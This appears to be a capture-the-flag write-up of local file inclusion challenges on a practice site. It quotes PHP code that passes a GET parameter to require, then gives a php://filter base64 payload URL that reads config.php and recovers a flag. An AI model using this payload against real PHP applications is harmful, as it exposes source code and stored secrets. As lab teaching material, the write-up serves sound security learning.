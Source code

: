 At line 62 we have this:
```php
if (isset($_GET['lang']))
{
  require($_GET['lang']);
}
```
It directly gives user input to ```require```.

## Solution

https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/

We can make the server require config.php, but the php in it will be executed.

To prevent that we can use ```php://filter/convert.base64-encode/resource=config.php```.
```
https://filters.secu-web.blackfoot.dev/index.php?lang=php://filter/convert.base64-encode/resource=config.php
```

This base64 string will be at the top of the page:
```
PD9waHAKICAvLyBDb25ncmF0eiAhIEZMQUcgSVMgQkZTe1VfaDR2M19VbjAhISF9Cj8+Cg==
```

After decoding it:
```php
<?php
  // Congratz ! FLAG IS BFS{U_h4v3_Un0!!!}
?>
```

flag: ```BFS{U_h4v3_Un0!!!}```

# lfi2

## What it is

A very simple website.

It says ```Flag is in an obvious html place.```.

## Solution

Tried a few urls before finding ```https://noprotection.secu-web.blackfoot.dev/flag.html```

It shows ```Congratz, you can validate with ZOB{y34h_y0u_f0und_m3}```.

# lfi3

## What it is
